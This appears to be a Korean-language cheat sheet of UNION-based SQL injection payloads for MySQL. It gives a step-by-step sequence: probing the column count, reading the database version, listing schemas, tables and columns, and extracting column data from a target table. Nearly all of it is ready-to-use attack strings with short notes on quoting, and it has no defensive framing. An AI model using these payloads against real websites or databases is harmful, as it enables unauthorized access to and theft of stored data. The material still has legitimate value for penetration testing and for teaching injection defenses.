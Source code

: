 # 컬럼 개수 알아내기

```
' UNION SELECT NULL-- -
' UNION SELECT NULL, NULL-- -
' UNION SELECT NULL, NULL, NULL-- -
' UNION SELECT NULL, NULL, NULL, NULL-- -
```

<br>

# DB 버전 및 이름 알아내기

```
' UNION SELECT NULL, NULL, @@version, NULL-- -
```

<br>

# DB 리스트 알아내기

```
' UNION SELECT NULL, schema_name, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

<br>

# 현재 DB 알아내기

```
' UNION SELECT NULL, database(), NULL, NULL-- -
```

<br>

# 테이블 리스트 알아내기

```
' UNION SELECT NULL, TABLE_NAME, TABLE_SCHEMA, NULL FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = <database_name>-- -
```

설명: WHERE절에서 DB명의 자료형이 문자열인 경우 해당 DB명에는 따옴표 필요

<br>

# 컬럼 리스트 알아내기

```
' UNION SELECT NULL, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = <table_name>-- -
```

설명: WHERE절에서 테이블명의 자료형이 문자열인 경우 해당 테이블명에는 따옴표 필요

<br>

# 데이터 알아내기

```
' UNION SELECT 1, <column_name1>, <column_name2>, NULL FROM <database_name>.<table_name>-- -
```
